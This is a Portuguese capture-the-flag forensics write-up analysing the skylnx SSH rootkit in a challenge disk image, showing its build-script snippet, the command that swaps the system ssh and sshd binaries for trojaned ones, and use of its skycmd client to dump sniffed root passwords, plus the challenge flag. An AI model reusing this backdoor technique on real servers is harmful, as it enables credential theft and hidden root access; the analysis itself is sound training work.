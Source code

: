 # CHALLENGE DA VIRADA (2018 -> 2019)

> Challenge da virada (2018 -> 2019)
> 
> Resolvido por: aguardando
> 
> Nome: Rootkit
> 
> Descrição: Suspeitamos que um de nossos servidores foi ownado pela Inteligência da Bloodsuckers. Tudo indica para o fato de terem instalado um binary rootkit em nosso sistema, visando conseguir nossas credenciais para tentarem usar em outros servidores. Faça uma análise forense no dump do sistema, e ao identificar o comprometimento, faça um reversing para identificar a senha que dá acesso ao dump (sniffer) das senhas. Após isso, entendendo o funcionamento do rk, obtenha a última senha legítima utilizada pelo root na máquina, pois achamos que ela foi mudada pelo pessoal da Inteligência por uma default deles, e também pode nos ser útil em outros dos seus sistemas, como a de dump! (o feitiço virou contra o feiticeiro!). Submeta no formato CTF-BR{SenhaUsadaParaDump,UltimaSenhaRootLegitima}. Não temos as credenciais, isso faz parte do desafio.
> 
> Categoria: Forensics
> 
> Link do arquivo: [aqui](https://static.pwn2win.party/2017/rootkit_3e4df5d6a3926cbc81ebf014a82098ad0964653aaedf581cd1bbc06eb3756642.tar.gz)
> 
> Write-up do vencedor: aguardando
> 
> Lançamento: 31 de dezembro de 2018
>
> Resolução: aguardando

**WRITE-UP**

Este ano o desafio do CTF-BR para o [Hall of Fame](https://ctf-br.org/hall-of-fame/) trouxe um desafio de forense bem interessante. Aparentemente um de nossos servidores foi ownado e pra melhorar instalaram um rootkit...!

![¬___¬'](https://encrypted-tbn0.gstatic.com/images?q=tbn:ANd9GcRlZRFJevs0yhUbh1NBE7QsxQ9VohUZ86ErbhudcxmxHi_15W7l "Malditos Hackers ¬__¬'")

O desafio nos pede para analisar o dump do sistema e determinar duas coisas:
  1. senha utilizada para dump, e;
  2. última senha root legítima.
 
Após o download primeiro verifiquei qual o tipo de arquivo:
![File type](https://i.imgur.com/ffFO7Wi.png)

Fazendo jus à minha fama de desconfiado, também confiro o hash do arquivo:

![epa, hashes diferentes? Õ_õ...esse gnx eh f0dz ](https://i.imgur.com/FCx4Sip.png)

Como o challenge não informou as credenciais desta máquina, resolvi seguir duas abordagens:
  1. recuperar os arquivos da imagem dada utilizando o [photorec](https://www.cgsecurity.org/wiki/PhotoRec), e;
  2. alterar a senha do root para facilitar a análise _ao vivo_ da máquina.
  
## Recuperando arquivos com o photorec 

O photorec é excelente para recuperação de arquivos. Basta criar um diretório de saída para os arquivos recuperados e executa-lo passando o arquivo da imagem como parâmetro:

```shell
mkdir photo
photorec ub1404lts-disk1.vmdk
```

![photorec](https://i.imgur.com/g5N10lA.png)


Feito isso, o programa recuperou diversos arquivos e os dividiu em 29 diretórios (recup_dir.xx). A idéia era procurar por algum indicativo deste malware na imagem. Como não sabia o que procurar tentei a string 'rootkit' \o/!

![grep -ri rootkit](https://i.imgur.com/ONzfU6R.png)

Analisando o script observamos que a senha utilizada para _dump_ é definida como MAGIC_VERSION no arquivo bonny.h, conforme destaque a seguir: 

```shell
cat <<_BONNY_ > version.h
#define SSH_VERSION     "$FAKEV"
#define SSH_PORTABLE    "$FAKEP"
#define SSH_RELEASE     SSH_VERSION SSH_PORTABLE
_BONNY_

: ${CBDPASS:=`./mkpasswd -p $UBDPASS`}
cat <<_BONNY_ > bonny.h
#define BD_PASS			"$CBDPASS"
#define MAGIC_VERSION	"$UDPPASS"
#define SKYCOMMAND      "$USPPASS"
_BONNY_
```

Ok, estamos um passo mais próximos de obter a nossa primeira flag (senha utilizada para o dump). Buscando por bonny.h encontramos outro fonte. O arquivo recuperado veio pela metade, mas ajudou a ter uma idéia melhor sobre o que procurar. 

![trecho do rootkit](https://i.imgur.com/DeiARfW.png)

Passando rapidamente pelo código, este rootkit substitui os binários do ssh e sshd por sua versão infectada (mas como o autor é bonzinho ele faz o backup dos arquivos para você antes de te infectar :)...

```script
mv /usr/bin/ssh ssh.old && cp ssh /usr/bin/ssh && mv /usr/sbin/sshd sshd.old && cp sshd /usr/sbin/sshd
```

Neste momento comecei a pesquisar por rootkits com estes nomes: skynet, skylnx e bonny, dentre outras strings que aparecem no fonte. Viajei por algum um tempo e lembrei que ainda não havia investigado a máquina. Com as informações que consegui até então ficou mais fácil procurar o que eu queria no sistema. _OBs: cabe ressaltar que a este ponto após analisar alguns arquivos que foram recuperados, encontrei um .tar.gz que possuía o fonte do rootkit skylnx._

## Análise da máquina 'viva'

Nesta análise utilizei uma máquina virtual Ubuntu que tinha pego da [OSBoxes](https://www.osboxes.org/) e apenas substitui seu disco pela imagem do desafio. As credenciais não foram informadas, então substituí a senha do [root](https://unix.stackexchange.com/questions/76313/change-password-of-a-user-in-etc-shadow) por _password_ alterando o [menu do grub](https://askubuntu.com/questions/24006/how-do-i-reset-a-lost-administrative-password).

![resetando senha do user](https://i.imgur.com/dkHZsez.png)

Agora com acesso comecei a investigar melhor o servidor SSH (/usr/sbin/sshd). Pude identificar que a versão do SSHD realmente havia sido modificada pelo rootkit:

```shell
root@rf-server4:/# grep skylnx /usr/sbin/sshd       
Binary file /usr/sbin/sshd matches
```

Reparei que não havia encontrado o arquivo bonny.h (que possui as senhas para operação do rootkit) nos arquivos recuperados pelo photorec. Então fiz uma pesquisa nos ELF (mais uma vez, salvo pelo SANTO STRINGS) e encontrei lá (no que deve ser o binário do SSHD) as senhas.

![rootkit strings](https://i.imgur.com/uwcUqFl.png)

Após mais algum tempo no código-fonte resolvi que daria muito trabalho criar o meu próprio cliente SSH para enviar as strings de versão que o rootkit estava esperando (mas pode ser um bom exercício se você está aprendendo programação). Como eu não confio no gnx (e você também não deveria) resolvi baixar o código do rootkit para a máquina ownada e comecei a brincar a partir dela. 

![rodando o rootkit](https://i.imgur.com/MlXoRxH.png)

Depois de algum tempo entendi o funcionamento do _skycommand.c_ e compilei o meu *skycmd* para conseguir realizar o dump que o desafio pede:
```script
root@rf-server4:/tmp/tmp.sQwn28gO1I/skylnx2# ./skycmd 127.0.0.1 22 wl4SUuXeSU
Trying 127.0.0.1...
Connected to 127.0.0.1.
Escape character is '^]'.
SSH-2.0-OpenSSH_6.6.1
pass_from: ::1 	user: root 	pass: ohcohYie9E
pass_from: 192.168.0.177 	user: root 	pass: ohcohYie9E
pass_from: 192.168.0.177 	user: root 	pass: AhooCo7wei
pass_from: 192.168.0.177 	user: root 	pass: OhCeW4ahsh             
pass_from: 192.168.0.177 	user: root 	pass: Woemash9ie4chee7Oe4p   # última senha válida do root :)
pass_from: 192.168.250.1 	user: user 	pass: password               # senha que nós alteramos
```

Aprendemos que o código possui três características principais:
  1. permite autenticação como root caso você informe a senha que foi configurada no BD_PASS;
  2. realiza um dump que revela as credenciais utilizadas nas últimas tentativas válidas de autenticação ao sistema-alvo, quando recebe como informação de versão local do cliente SSH a string configurada em MAGIC_VERSION; 
  3. executa um comando como root se você informar a string configurada em SKYCOMMAND se você executar o binário gerado pelo _skycommand.c_ como a versão local do cliente SSH seguida de um comando.

![client_version_string](https://i.imgur.com/DEWSlDT.png)
Gostei do desafio pois fazia uns 3 anos que não mexia com o photorec e nada relacionado a forense e investigação. Também foi muito bom para relembrar conceitos básicos de administração de SO (reset da senha do ubuntu), noções de programação e engenharia reversa.

## Here is a flag for you 
**FLAG: CTF-BR{wl4SUuXeSU,Woemash9ie4chee7Oe4p}**

\o/ RTFM \o/
